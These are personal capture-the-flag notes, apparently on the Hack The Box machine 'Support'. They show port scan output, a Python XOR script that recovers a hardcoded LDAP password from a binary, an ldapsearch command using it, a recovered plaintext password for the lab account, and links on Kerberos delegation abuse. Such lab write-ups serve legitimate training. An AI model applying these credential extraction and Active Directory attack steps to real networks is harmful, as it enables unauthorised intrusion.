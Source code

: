 # 1.Enum
open ports
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-11-17 10:23:04Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127

anonymous access is enabled in smb 
![[Pasted image 20221117125442.png]]
only support-tools is accessible
![[Pasted image 20221117125540.png]]
all content of the directory looks normal except UserInfo.exe.zip 
## 1.1 UserInfo.exe 
sending the binary to windows to enumerate it with dnspy 
![[Pasted image 20221215084328.png]]
![[Pasted image 20221215084342.png]]
reverse the code 
```python
import base64
 
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando".encode("UTF-8")
 
array = base64.b64decode(enc_password)
array2 = ""
 
for i in range(len(array)):
    array2 += chr(array[i] ^ key[i % len(key)] ^ 223)
 
print(array2)
```
```
result : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
![[Pasted image 20221215084434.png]]
DC=support,DC=htb
```
ldapsearch -x -H ldap://support.htb -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=support,CN=Users,DC=support,DC=htb"

```
![[Pasted image 20221215091629.png]]

support:Ironside47pleasure40Watchful
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
https://hakin9.org/rbcd-attack-kerberos-resource-based-constrained-delegation-attack-from-outside-using-impacket/